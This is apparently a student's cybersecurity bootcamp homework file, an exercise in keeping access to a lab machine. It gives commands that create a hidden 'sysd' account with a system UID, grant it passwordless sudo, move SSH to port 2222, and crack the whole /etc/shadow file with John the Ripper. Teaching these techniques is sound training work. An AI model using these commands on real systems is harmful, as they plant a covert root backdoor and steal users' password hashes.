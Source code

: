 :Submission File: 
Jonathan Portela
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.
Step 1: Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
useradd --no-create-home sysd
Give your secret user a password:
passwd sysd
Give your secret user a system UID < 1000:
usermod -u 420 sysd
Give your secret user the same GID:
groupmod -g 420 sysd
Give your secret user full sudo access without the need for a password:
visudo

#includedir /etc/sudoers.d
sysd ALL=(ALL) NOPASSWD:ALL
Test that sudo access works without your password:
sudo -l
Step 2: Smooth Sailing
Edit the sshd_config file:


# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.
​
#Port 22
Port 2222
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
Step 3: Testing Your Configuration Update
Restart the SSH service:
sudo systemctl restart ssh
Exit the root account:
exit
SSH to the target machine using your sysd account and port 2222:
ssh sysd@192.168.1.105 -p 2222
Use sudo to switch to the root user:
sudo su
Step 4: Crack All the Passwords
SSH back to the system using your sysd account and port 2222:
ssh sysd@192.168.1.105 -p 2222
Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
john /etc/shadow

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


